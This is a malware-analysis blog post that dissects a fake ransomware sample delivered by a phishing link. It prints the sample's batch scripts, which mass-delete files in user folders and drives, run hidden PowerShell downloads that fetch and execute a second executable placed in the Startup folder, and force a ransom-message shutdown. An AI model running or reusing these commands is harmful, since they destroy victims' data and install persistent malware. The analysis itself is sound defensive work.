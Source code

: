```yaml
---
title: "Malware: A Look Into Fake Cryptoware"
categories: blog
tags: [malware]
date: 2016-05-24T16:20:35-04:00
---
```


Ransomware has been picking up what seems to be a lot of attention within the past couple of months, with some adversaries even getting payment from some corporations. During my normal routines I've come across a fair amount of variants from Cryptowall, Teslacrypt, Locky, etc. I can now say that I've had a chance to look at fake ransomware, and honestly, I have a hard time determining if it's an amazing idea or just so basic that adversaries lacking experience are able to pull it off.

### Part1
------
The initial attack vector was an e-mail with a link which takes you to a download for an executable. When sandboxing the sample, you're able to determine that some additional files are dropped upon execution, one of which is a .bat file.

### First .bat content [C:\Users\User\AppData\Local\Temp\XXX.tmp\XXX.bat]

Lets break down the first important thing noticed.

The adversary reverses the right/left-click buttons for the mouse

```bat
@shift /0
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then proceed to iterate through some of the folders most likely to contain personal information a end-user would want back, then delete all the items within the folder. I shortened the output, just know that the following folders/drives are impacted.
Desktop, Documents, Downloads, Pictures, Music, Videos, Contacts, Favorites, Searches, Recycle bin, Temp, A:, B:, D:, E:, F:, G:, H:

```bat
@echo off
set folder="%USERPROFILE%\Desktop\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Documents\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Downloads\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Pictures\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

[SNIPPED]
```


They proceed to do what I'll consider a form of calling home. A browser is launched to the web address specified which is currently down, but potentially had an encryption message.

```bat
@echo off
start "" hXXp://10236.6te.net
```

Powershell is then invoked to download some additional files.
  - First command is used to download the common "your files have been encrypted muahahaha" image. This image is then placed on the users Desktop with the name "Files_Encrypted.jpg"
  - Second command downloads another executable (we'll look at this one as well) named "part2.exe" which is then placed to probably the most common persistent point, the startup folder, and renamed to "winrds.exe".
  - Third command downloads the instructions on how the end-user can make payment via bitcoin to retrieve the decryption key to restore all their missing files. This file is also conveniently placed on the users Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Files_Encrypted.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Files_Encrypted.jpg'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/part2.exe', \\
'%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'); cmd /c '%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\ 
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/payment_instructions.txt', \\
'%USERPROFILE%\Desktop\Payment_Info.txt'); cmd /c '%USERPROFILE%\Desktop\Payment_Info.txt'
```

![_config.yml]({{ site.url }}/images/fake_crypto.png)

### Part 2
---

### Second .bat content [C:\Users\User\AppData\Local\Temp\~XXXX.bat]
So we saw that a second executable file is retrieved and placed within the Startup folder for persistence. After detonating this second sample, some of the same techniques noticed prior were used again.

Another .bat files is dropped from the executable which begins by first reversing the mouse buttons again.

```bat
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then try to make sure that the interface is enabled (I suppose they are hoping the end-user is wired with the interface having a default name). IP configuration is renewed with another call out, however to a different page, "i2.html".

```bat
@echo off
netsh interface set interface "Local Area Connection" Enable
timeout /t 10 /nobreak

@Echo off
Ipconfig /renew
timeout /t 10 /nobreak

@echo off
start "" hXXp://10236.6te.net/i2.html
timeout /t 10 /nobreak
```

They again retrieve the payment instructions and place them on the Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Payment_Instructions.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Payment_Instructions.jpg'
timeout /t 15 /nobreak
```

Hoping the payment info retrieval was successful again, the IP configuration is released and the local interface is disabled. However, they spelled disable wrong (Desable), so the interface doesn't get turned off.

```bat
@Echo off
Ipconfig /release
timeout /t 10 /nobreak

@echo off
netsh interface set interface "Local Area Connection" Desable
timeout /t 150 /nobreak
```
 
Last, but certainly not least, the adversary issues a 60 second restart with a message displayed to pay the ransom for file retrievals. And if you need assistance with figuring out how to pay, they have a nice support e-mail address you can contact. Service first!
 
```bat
C:\Windows\System32\shutdown.exe -s -t 60 -c "Pay Your Ransom to Get Your Files and Computer Back. Shutting Down In 60 Seconds. Email: towerweb@yandex.com for assistance."
```

### Wrap up
---
This is a simple attempt at an adversary using Ransomware with a means to also impersonate itself as Cryptoware. Typically they go hand in hand, but this is a clever fake. All personal files are explicitly deleted from disk, so if an end-user was to actually pay the adversary, no decryption key will be delivered. You'll have to resort to a file recovery method for the local hard drive. So back to my original thought, is this really better then Cryptoware? The adversary really doesn't have to stand up an infrastructure for command & control traffic, they don't have to maintain crypto keys, their malware works quicker then crypto since only deletion is taking place and not rounds of encryption, etc. I really think we'll be seeing more of these "quick wins" for the adversary within the year as a typical end-user would never know the difference.